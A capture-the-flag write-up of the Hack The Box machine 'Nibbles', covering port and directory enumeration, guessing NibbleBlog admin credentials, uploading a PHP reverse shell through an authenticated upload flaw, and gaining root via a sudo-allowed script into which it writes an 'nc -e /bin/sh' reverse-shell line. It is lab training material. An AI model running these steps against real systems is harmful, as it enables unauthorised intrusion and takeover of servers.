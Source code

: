 ```yaml
---
title: "HTB - Nibbles without MetaSploit"
date: 2021-02-17
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/Nibbles_Logo.png"
---
```

## Intro
Easy box, according to HTB notation, also not a very good user's rating. Let's see what it is about!

## Target
[HTB - Nibbles](https://app.hackthebox.eu/machines/121)

## Recon
Quick recon according to logo and info :

* Linux box ;
* Misc : web, misconfiguration.

## Enum

Classic `nmap` scan :

```text
sudo nmap -T4 -A -p- -oA scan $target_ip
```
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-17 16:42 CET
Nmap scan report for $target_ip
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/17%OT=22%CT=1%CU=31405%PV=Y%DS=2%DC=T%G=Y%TM=602D399
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   23.69 ms 10.10.14.1
2   24.01 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.45 seconds
```

### Web scanning
Let's enumerate web folders in CLI, for a change :

```text
gobuster dir -u http://$target_ip -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200 -x .php

```
This won't give us much information, however by browsing to the website and checking its source we find a new URL :

![Nibbles Check Source](/images/2021/02/Nibbles_Check_Source.png)

We fire `gobuster` one more time, with this new URL :

```text
gobuster dir -u http://$target_ip/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200 -x .php

```
```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://$target_ip/nibbleblog/
[+] Threads:        200
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2021/02/17 16:54:47 Starting gobuster
===============================================================
/themes (Status: 301)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/languages (Status: 301)
/index.php (Status: 200)
/content (Status: 301)
/sitemap.php (Status: 200)
===============================================================
2021/02/17 16:55:21 Finished
===============================================================p
```
It will reveal juicier info, such as `admin.php`, `install.php`, `sitemap`, etc.

Going to `install.php` will tell us the site is already installed and propose to upgrade it which will eventually leak `NibbleBlog version 4.0.3` :

![Nibbles Version](/images/2021/02/Nibbles_Version.png)

By checking source code on Github, we also find juicy directory in `/content/private` :

![Nibbles Directory Listing](/images/2021/02/Nibbles_Dir_List.png)

Now checking `searchsploit` we find that our version is vulnerable to [Authenticated Arbitrary File Upload](https://www.exploit-db.com/exploits/38489). It means we need to get the credentials. 

By looking inside the users.xml file we can suppose that `admin` is the login. 

## Exploitation

Now, we could try to brute force the admin area, however it won't be effective since Nibbleblog will temporarily block our IP after a few attempts:

![Nibbles WAF](/images/2021/02/Nibbles_WAF.png)

Here, again, I spent way more time than I care to admit. You have to find the password, but can't "crack" it which means we have to guess it. I tried a lot of stuff... but couldn't find it, so I cheated... again!

We know the password is `admin`, and the password is `nibbles`, like the box's name (which I tried), but I uesd a capital `N`.

![Nibbles Admin Area](/images/2021/02/Nibbles_Admin_Area.png)

Now that we have our credentials, we can finally start playing with the CVE we found earlier! Since, we are trying to solve this without MetaSploit, we need to find a [manual way](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) to exploit our target.

### Getting initial shell
Let's create a [php shell(https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)], thanks to Pentest Monkey and upload it via the Image plugin located at `http://$target_ip/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`, then we will run shell my going to this URL : `http://$target_ip/nibbleblog/content/private/plugins/my_image/image.php`. The filename will always be `image.ext` with `ext` being the "real" extension.

NB : do not forget to start your listener : `nc -nlvp 1234`.

And we are in, unfortunately as `nibbler` and not `root` :

![Nibbles Initial Shell](/images/2021/02/Nibbles_Initial_Shell.png)

Let's still grab the user flag :

![Nibbles User Flag](/images/2021/02/Nibbles_User_Flag.png)

And now... we need to escalate our priv!

### PrivEsc

Before we can have a chance to elevate our privs, we should do more [internal recon](https://www.masoopy.com/cheatsheets/got-shell/).

We'll upload [LSE](https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh), in order to check for any "entry points" to privileges escalation.

We will serve our script via `sudo python2 -m SimpleHTTPServer 80` since our target doesn't seem to resolve Github's domain's and download it with `curl`.

Once it downloaded, give it exec right, then run it. Something interesting will come up :

![Nibbles LSE Sudo](/images/2021/02/Nibbles_LSE_Sudo.png)

This means that we'll be able to run anything as `root` as long as it is in `/home/nibbler/personal/stuff/monitor.sh`.

All right! Let's try to run a reverse shell :

```text
cd /home/nibbler
echo "#!/bin/bash" > personal/stuff/monitor.sh
echo "nc -e "/bin/sh" $attacking_ip 1235" >> personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
```

Now we run it :

`sudo /home/nibbler/personal/stuff/monitor.sh`

NB : don't forget to start the listener on your attacking machine.

And that's it, we have root :

![Nibbles Root Shell](/images/2021/02/Nibbles_Root_Shell.png)

And we grab the last flag  :

![Nibbles Root Flag](/images/2021/02/Nibbles_Root_Flag.png)

## Outro

Let me be blunt. Getting the admin's password sucked, and was no fun at all. By judging from the comments on the forum and the poor notation, I guess I wasn't the only one really frustrated while trying to get initial access. However, once I was in, while it was pretty easy, it was also super fun and really enjoyed this box!